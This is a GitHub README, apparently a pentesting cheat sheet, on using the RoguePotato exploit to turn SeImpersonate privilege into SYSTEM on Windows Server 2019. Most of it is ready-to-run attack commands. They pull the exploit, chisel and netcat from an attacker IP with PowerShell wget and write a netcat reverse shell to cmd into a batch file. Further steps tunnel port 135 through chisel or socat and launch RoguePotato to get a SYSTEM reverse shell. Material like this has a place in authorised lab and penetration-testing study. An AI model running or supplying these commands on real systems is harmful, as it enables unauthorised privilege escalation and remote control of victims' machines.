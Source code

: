 # Rogue-Potato

[JuicyPotato](https://k4sth4.github.io/Juicy-Potato/) abused SeImpersonate or SeAssignPrimaryToken privileges to get execution as SYSTEM. 
But it fails against Windows Server 2019. RoguePotato can be use to abuse abused SeImpersonate Priviledge, if the target OS is Windows Server 2019.

# Exploitation

All we need is [RoguePotato.exe](https://github.com/k4sth4/Rogue-Potato/blob/main/RoguePotato.exe) , [Compatible Chisel for Win and Linux](https://github.com/k4sth4/Rogue-Potato) and [nc binary](https://github.com/k4sth4/Rogue-Potato).

### Upload all these on target machine

```markdown
powershell -c wget http://10.10.x.x:8080/RoguePotato.exe -outfile RoguePotato.exe
powershell -c wget http://10.10.x.x:8080/chiselx64.exe -outfile chisel.exe
powershell -c wget http://10.10.x.x:8080/nc64.exe -outfile nc64.exe
```

### Create a reverse shell on target machine and set chisel

```markdown
echo c:\Windows\Temp\nc64.exe -e cmd 10.10.x.x 1234 > rev.bat
```

Now run chisel on Attacker VM.
```markdown
./chisel server -p 8000 --reverse
```

Now run chisle.exe on Traget Machine
```markdown
.\chisel.exe client 10.10.x.x:8000 R:135:localhost:9999
```
Note: 10.10.x.x is the Attacker IP.

We've open ports using chisel, now we can do the attack using RoguePotato.exe.

First we need to get another shell of the target user. As we can see that this shell is busy on port forwarding.
After gettng shell-2 we can set our listner on port that we've defined on rev.bat.

nc -nvlp 1234


Now on shell-2 we can execute payload.

```markdown
.\RoguePotato.exe -r 10.10.x.x -l 9999 -e c:\Windows\Temp\rev.bat
```

if you're using Powershell.
```markdown
.\RoguePotato.exe -r 10.10.x.x -l 9999 -e "powershell c:\Windows\Temp\shell.ps1"
```

## Another Way Using socat

We can also use socat to port forward 135.
First set chisel on Kali vm as mentioned above.
Then on Target machine set run chisel as:
```markdown
.\chisel.exe client 10.10.x.x:8000 R:9999:localhost:9999
```
Then set socat on Attacker VM (kali vm)
```markdown
socat tcp-listen:135,reuseaddr,fork tcp:127.0.0.1:9999
```
Now get another shell and run RoguePotato.exe as mentioned above you will get reverse shell as SYSTEM.

